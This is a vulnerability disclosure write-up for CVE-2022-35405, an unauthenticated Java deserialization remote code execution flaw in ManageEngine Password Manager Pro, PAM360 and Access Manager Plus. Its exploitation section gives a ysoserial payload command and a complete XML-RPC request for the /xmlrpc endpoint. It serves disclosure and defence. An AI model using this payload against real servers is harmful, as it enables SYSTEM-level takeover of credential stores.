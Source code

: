 ```yaml
---
layout: article
title:  "CVE-2022-35405 Manage engines RCE (Password Manager Pro, PAM360 and Access Manager Plus)"
tags:  eng cve
cover: /assets/cve202235405/engine.png
---
```

 

<img class="image image--lg" src="/assets/cve202235405/engine.png"/>


"This remote code execution vulnerability could allow remote attackers to execute arbitrary code on affected installations of Password Manager Pro, PAM360 and Access Manager Plus. Authentication is not required to exploit this vulnerability in Password Manager Pro and PAM360 products."


| Product Name         | Affected Version(s)    |
|----------------------|------------------------|
| PAM360               | 5.5 (5500) and below   |
| Password Manager Pro | 12.1 (12100) and below |
| Access Manager Plus  | 4.3 (4302) and below   | (authenticated)

This vulnerability happens due to a vulnerable version of ApacheOfBiz (CVE-2020-9496) that exposes an `XML-RPC` endpoint at `/webtools/control/xmlrpc` in case of Manage Engine products this endpoint is `/xmlrpc`.  This endpoint can deserealizes java objects, as part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands.

First this vulnerability was found in Password Manager Pro, however after the report and disclosure of the Security Fixes it was identified that the vulnerability also existed in PAM360 and Access Manager Plus installations. 

On the PMP context, the RCE has nt authority/system permissions on the affected server and can be used to enter internal networks, compromise data on the server or crash or shutdown the whole server and applications.

More information about CVE-2020-9496 exploitation can be found [here](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496) or [here](https://www.cnblogs.com/ph4nt0mer/p/13576739.html)

### **Exploitation**
For generate java serialized object payload, [Ysoserial](https://github.com/frohoff/ysoserial) can be used:
It is needed that the ysoserial tool library versions match the server org.apache.commons.beanutils version, if the versions don't match: `Failed to read result object: org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962 ` (something like that) follow the instructions of [this article](https://rhinosecuritylabs.com/research/java-deserializationusing-ysoserial/) to bypass that finding the exact server lib version by serialVersionUID and changing the pom.xml of ysoserial.

```bash
java -jar ysoserial-version.jar CommonsBeanutils1 'command' | base64 | tr -d "\n"
```
![Untitled](/assets/cve202235405/1.png)

Replace the `[base64-payload]` and send the request:

```html
POST /xmlrpc HTTP/1.1
Host: host-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![Untitled](/assets/cve202235405/2.png)

![Untitled](/assets/cve202235405/3.png)

If the response was `InvocationTargetException: java.lang.reflect.InvocationTargetException` it worked, this exception was trigged after the execution of the payload.

I wrote an exploit to make it easier to explore and you can find it here: [https://github.com/viniciuspereiras/CVE-2022-33405/](https://github.com/viniciuspereiras/CVE-2022-35405/)

#### Extra
I'd like to thank the security community, although I can't disclose vulnerability information, there were some researchers who managed to go after it and come up with a working poc, exploits and metasploit modules.
If you want to take a look:
- [https://xz.aliyun.com/t/11578](https://xz.aliyun.com/t/11578)
- [https://packetstormsecurity.com/files/167918/Zoho-Password-Manager-Pro-XML-RPC-Java-Deserialization.html](https://packetstormsecurity.com/files/167918/Zoho-Password-Manager-Pro-XML-RPC-Java-Deserialization.html)

Nuclei template:
- [https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-35405.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-35405.yaml)

### Coordinated Disclosure Timeline
-   06/21/2022: Report sent to vendor.
-   06/21/2022: Manage Engine acknowledges the issue.
-   06/24/2022: Issue fixed [Release note](https://www.manageengine.com/products/passwordmanagerpro/release-notes.html#12101)
-   07/11/2022: [CVE-2022-35405](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35405)

